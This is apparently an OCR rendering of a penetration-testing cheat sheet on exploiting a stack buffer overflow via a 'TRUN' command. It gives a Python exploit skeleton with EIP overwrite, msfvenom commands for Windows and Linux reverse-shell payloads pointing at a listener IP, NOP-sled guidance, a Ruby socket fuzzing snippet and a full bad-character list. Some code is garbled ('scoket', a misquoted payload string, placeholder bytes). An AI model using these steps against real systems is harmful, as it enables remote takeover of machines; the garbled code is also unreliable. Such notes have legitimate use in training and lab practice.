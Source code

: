 			import socket
			import sys

			shellcode = "a"*2003 + "\x??\x??\x??\x??"
			s=scoket.socket(socket.AF_INET, socket.SOCK_STREAM)
			try:
				connect=s.connect(('IP', port))
				s.send(('TRUN /.:/ + shellcode'))
			except:
				print("CHECK DEBUGGER!.")
			s.close()

			see if .dll is loaded into EIP

	Gaining remote shell:

		msfvenom -p windows/shell_reverse_tcp LHOST=lhost LPORT=4343 EXITFUNC=thread -f c -a x86 --platform windows -b "\x00"

		or for linux:

		msfvenom -p linux/x86/shell_reverse_tcp LHOST=111.61.0.153 LPORT=4444 EXITFUNC=thread -a x86 --platform linux -f c -b "\x00" -e x86/shikata_ga_nai

		add the payload, and some NOP's.
		a NOP is a hex of \x90, add it right after the overwritten EIP, "\x90"*32 should be enough.

		2dx


	BOF With Ruby on the go:

		pry --simple-prompt

		require "socket"
		s = TCPSocket.new("<IP>", <PORT>)
		s.gets - get banner
		s.puts "A"*<NUMBER>
		...

		badchars:

			"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"



Information Gathering ::

	Infrastructures:
